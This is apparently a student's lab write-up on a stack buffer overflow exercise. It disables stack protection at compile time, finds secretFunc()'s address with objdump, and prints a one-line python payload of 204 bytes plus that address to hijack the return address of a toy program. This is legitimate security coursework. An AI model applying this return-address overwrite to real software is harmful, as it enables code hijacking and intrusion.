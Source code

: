 # Lab bof1
Hà Quốc Tiến - 22110075<br>
## Target
- Make the `secretFunc()` run because of buffer-overflow.
## Solution
- Stack frames<br>
![bof1_1](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof1_1.png)
- In order to run `secretFunc()`, we will have to change the Return Address of `the vuln()` to `secretFunc()` address. So that it will call `secretFunc()`<br>
- We can see in the stack frames, if we want to change the Return Address of `the vuln()`, we have to insert 204 bytes + the address of `secretFunc()`.
## Execution
1. Create `bof1.out` by using ` gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
![bof1_2](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof1_2.png)
2. Get the address of the `secretFunc()`by using  `objdump -d bof1.out|grep secretFunc`.<br>
![bof1_3](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof1_3.png)
3. Start buffer-overflow, Inserting 204 'a' + the address of `secretFunc()`. In this case is 0x0804846b.<br>
` echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')")| ./bof1.out 1`<br>
the 1 is for argv[1] to not be 0<br>
 ![bof1_4](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof1_4.png)
- The lab is done
